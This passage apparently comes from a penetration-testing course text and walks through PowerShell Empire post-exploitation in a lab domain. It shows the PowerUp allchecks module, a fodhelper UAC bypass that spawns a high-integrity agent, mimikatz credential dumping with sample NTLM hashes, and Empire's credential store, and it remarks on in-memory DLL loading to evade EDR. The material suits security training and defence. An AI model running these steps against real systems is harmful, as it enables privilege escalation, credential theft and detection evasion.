 The _privesc_ category contains privilege escalation modules. One of the more interesting modules in this group is _powerup/allchecks_. It uses several techniques based on misconfigurations such as unquoted service paths, improper permissions on service executables, and much more.

```
(Empire: powershell/situational_awareness/network/powerview/get_user) > usemodule powershell/privesc/powerup/allchecks

(Empire: powershell/privesc/powerup/allchecks) > execute
Job started: N459AD

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[+] Run a BypassUAC attack to elevate privileges to admin.
...
```

The _bypassuac_fodhelper_ module is quite useful if we have access to a local administrator account. Depending on the local Windows version, this module can bypass UAC and launch a high-integrity PowerShell Empire agent:

```
(Empire: S2Y5XW1L) > usemodule privesc/bypassuac_fodhelper

(Empire: powershell/privesc/bypassuac_fodhelper) > info

              Name: Invoke-FodHelperBypass
            Module: powershell/privesc/bypassuac_fodhelper
        NeedsAdmin: False
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  Petr Medonos

Description:
  Bypasses UAC by performing an registry modification for
  FodHelper (based on https://winscripting.blog/2017/05/12
  /first-entry-welcome-and-uac-bypass/)

Comments:
  https://winscripting.blog/2017/05/12/first-entry-welcome-
  and-uac-bypass/

Options:

Name       Required    Value           Description
----       --------    -------         -----------
Listener   True                        Listener to use.                        
UserAgent  False       default         User-agent string to use for the staging
                                       request (default, none, or other).      
Proxy      False       default         Proxy to use for request (default, none,
                                       or other).                              
Agent      True        S2Y5XW1L        Agent to run module on.                 
ProxyCreds False       default         Proxy credentials                       
                                       ([domain\]username:password) to use for 
                                       request (default, none, or other).      

(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http

(Empire: powershell/privesc/bypassuac_fodhelper) > execute
[>] Module is not opsec safe, run? [y/N] y

(Empire: powershell/privesc/bypassuac_fodhelper) > 
Job started: 4STVDU
[+] Initial agent K678VC13 from 10.11.0.22 now active (Slack)

(Empire: powershell/privesc/bypassuac_fodhelper) > 
```

Once we have a high-integrity session, we can perform actions that require local administrator or SYSTEM rights, such as executing mimikatz to dump cached credentials.

```
(Empire: agents) > interact K678VC13

(Empire: K678VC13) > usemodule credentials/
credential_injection*     mimikatz/extract_tickets  mimikatz/sam*
enum_cred_store           mimikatz/golden_ticket    mimikatz/silver_ticket
invoke_kerberoast         mimikatz/keys*            mimikatz/trust_keys*
mimikatz/cache*           mimikatz/logonpasswords*  powerdump*
mimikatz/certs*           mimikatz/lsadump*         sessiongopher
mimikatz/command*         mimikatz/mimitokens*      tokens
mimikatz/dcsync           mimikatz/pth*             vault_credential*
mimikatz/dcsync_hashdump  mimikatz/purge            
```

The _credentials_ category in Listing 22 contains multiple mimikatz commands that have been ported into Empire. The commands marked with an asterisk require a high-integrity Empire agent.

Empire uses reflective DLL injection to load the mimikatz library into the agent directly from memory.

Loading our malicious executable in this way minimizes the risk of detection since most EDR solutions only analyze files stored on the hard drive.

This method is custom-coded into the agent as Windows does not expose any official APIs (similar to LoadLibrary) that would allow us to achieve the same objective.

Let's take a look at a high-integrity access module such as _logonpasswords_:

```
(Empire: K678VC13) > usemodule credentials/mimikatz/logonpasswords

(Empire: powershell/credentials/mimikatz/logonpasswords) > execute
Job started: NXK271

Hostname: client251.corp.com / S-1-5-21-3048852426-3234707088-723452474

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 244851 (00000000:0003bc73)
Session           : Interactive from 1
User Name         : offsec
Domain            : corp
Logon Server      : DC01
Logon Time        : 2/20/2019 10:36:32 PM
SID               : S-1-5-21-3048852426-3234707088-723452474-1103
	msv :	
	 [00000003] Primary
	 * Username : offsec
	 * Domain   : corp
	 * NTLM     : e2b475c11da2a0748290d87aa966c327
	 * SHA1     : 8c77f430e4ab8acb10ead387d64011c76400d26e
	 * DPAPI    : c10c264a27b63c4e66728bbef4be8aab
	tspkg :	
	wdigest :	
	 * Username : offsec
	 * Domain   : corp
	 * Password : (null)
	kerberos :	
	 * Username : offsec
	 * Domain   : CORP.COM
	 * Password : (null)
	ssp :	
	credman :	
...
```

This output is identical to mimikatz but the collected credentials are also written into the credential store, which can be enumerated with creds:

```
(Empire: K678VC13) > creds

Credentials:

CredID  CredType   Domain     UserName     Host        Password
------  --------   ------     --------     ----        --------
1       hash       corp.com   offsec       client251   e2b475c11da2a0748290d87aa966c32
2       hash       corp.com   CLIENT251$   client251   4d4ae0e7cb16d4cfe6a91412b3d80ed
```

We can also manually enter data into the credentials store with creds add as shown in Listing 25.

```
(Empire: K678VC13) > creds add corp.com jeff_admin Qwerty09!

Credentials:

CredID  CredType   Domain     UserName     Host        Password
------  --------   ------     --------     ----        --------
1       hash       corp.com   offsec       client251   e2b475c11da2a0748290d87aa966c32
2       hash       corp.com   CLIENT251$   client251   4d4ae0e7cb16d4cfe6a91412b3d80ed
3       plaintext  corp.com   jeff_admin               Qwerty09!
```
